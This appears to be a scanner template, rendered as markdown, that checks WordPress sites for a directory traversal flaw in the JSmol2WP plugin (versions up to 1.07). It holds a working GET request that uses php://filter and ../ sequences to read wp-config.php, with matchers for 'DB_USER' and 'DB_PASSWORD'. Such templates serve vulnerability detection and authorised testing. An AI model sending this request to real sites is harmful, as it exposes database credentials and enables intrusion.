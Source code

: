 **Type - word**

- part - body
- words
  1. ///sessions

**Type - status**

- status
  1. 200

---

# JSmol2WP \<= 1.07 - Directory Traversal

## Description

- An issue was discovered in the JSmol2WP plugin 1.07 for WordPress. There is an arbitrary file read vulnerability via ../ directory traversal in query=php://filter/resource= in the jsmol.php query string. This can also be used for SSRF.

- severity - high
- tags - wp,wp-plugin,wordpress,jsmol2wp,wpscan,cve,cve2018,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. 'DB_USER',
  2. 'DB_PASSWORD'
- condition - and

**Type - word**

- part - header
- words
  1. text/plain

**Type - status**

- status
  1. 200

---
